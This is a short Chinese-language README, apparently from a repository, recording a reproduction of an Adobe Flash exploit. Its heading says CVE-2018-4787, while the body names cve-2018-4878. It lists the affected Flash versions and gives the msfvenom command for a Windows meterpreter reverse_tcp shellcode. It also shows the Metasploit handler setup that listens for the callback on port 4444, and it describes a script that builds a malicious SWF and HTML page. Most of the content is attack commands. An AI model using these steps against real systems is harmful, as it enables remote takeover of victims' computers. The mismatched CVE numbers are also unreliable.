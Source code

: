 # CVE-2018-4787 复现记录
## Adobe Flash
`影响版本:`
    
    Adobe Flash 28.0.0.137及其之前的版本

    metasploit Framework个人笔记
    https://zhuanlan.zhihu.com/p/40091321

## Msfvenom生成shellcode
    msfvenom -p windows/meterpreter/reverse_tcp LHOST=IP LPORT=4444 -a x86 --platform win -f py > shellcode.txt 
## Metasploit Listen
    use exploit/multi/handler
    set LHOST IP
    set LPORT 4444
    set payload windows/meterpreter/reverse_tcp 
##  cve-2018-4878.py为exploit生成脚本，shellcode用metasploit生成，默认的为Windows弹计算器的payload。

## exploit.swf和index.html为cve-2018-4878.py生成的利用页面
